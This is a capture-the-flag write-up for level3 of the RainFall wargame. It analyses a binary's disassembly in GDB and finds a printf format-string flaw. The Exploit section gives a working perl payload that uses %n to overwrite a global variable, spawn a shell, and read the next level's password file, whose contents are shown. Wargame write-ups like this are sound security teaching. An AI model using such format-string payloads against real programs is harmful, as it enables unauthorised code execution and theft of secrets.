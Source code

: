 # level3

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Take a look at `main`, nothing tremendous. It calls `v`:

```gdb
gdb-peda$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218                   ; 536 bytes of stack space
   0x080484ad <+9>:     mov    eax,ds:0x8049860            ; eax = stdin
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax     ; push stdin to stack
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200   ; push 512 to stack
   0x080484be <+26>:    lea    eax,[ebp-0x208]             ; load buf[0] in eax
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>       ; call fgets
   0x080484cc <+40>:    lea    eax,[ebp-0x208]             ; load buf[0] in eax
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax         ; ebx = eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>      ; call printf
   0x080484da <+54>:    mov    eax,ds:0x804988c            ; eax = data segment variable (that equals 0 here)
   0x080484df <+59>:    cmp    eax,0x40                    ; compare eax to 0x40 (64 in decimal)
   0x080484e2 <+62>:    jne    0x8048518 <v+116>           ; jump to leave instruction
   0x080484e4 <+64>:    mov    eax,ds:0x8049880            ; eax = stdout
   0x080484e9 <+69>:    mov    edx,eax                     ; edx = eax
   0x080484eb <+71>:    mov    eax,0x8048600               ; eax = 0x8048600 (contains "Wait what?!\n")
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx     ; push edx to stack
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc     ; push 12 to stack
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1     ; push 1 to stack
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax         ; push eax to stack (arg[0])
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>      ; call fwrite
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d   ; push 0x804860d content to stack
   0x08048513 <+111>:   call   0x80483c0 <system@plt>      ; call system
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

We notice numerous calls: `fgets`, `printf`. `fwrite` and `system`. Also, a conditionnal jumps seems to lead to the end of the function without executing `fwrite` and `system`.

We look at the content of the address 0x804860d (`x/s 0x804860d` command in gdb) pushed on the stack before the call to `system`, which is the string `"/bin/sh"`.

So we know that we don't have to jump after the `cmp eax,0x40` instruction to reach this `system` call.

Since `fgets` protects from a buffer overflow attack, we look for `printf` vulnerabilities, and find [this document](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) (also attached in 'Ressources' directory) about the format string one.

This will allow us to write the value 0x40 (64 in decimal) in the address `0x804988c` which is copied to `eax` before the `cmp eax,0x40` instruction. Here is how to proceed.

## Exploit

First of all, we inject as many `%x` conversion as needed to make printf move forward through the stack and reach the address where the string we have provided is stored.

```console
level3@RainFall:~$ perl -e 'print "AAAA %08x %08x %08x %08x\n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

Here we have read the first 16 bytes of the stack, and we know that the 4th converted argument that `printf` is the address of the supplied string (`AAAA` => `41414141`).

We can now use the `%n` conversion which prints the number of characters written so far by `printf` to write the value 64 in the address `0x804988c`.

```console
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x0812345678901234567890123456789012345678901%x%x%x%n"' > /tmp/level3
```

```console
level3@RainFall:~$ cat /tmp/level3 - | ./level3
...
[hit return, some garbage display]
...
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
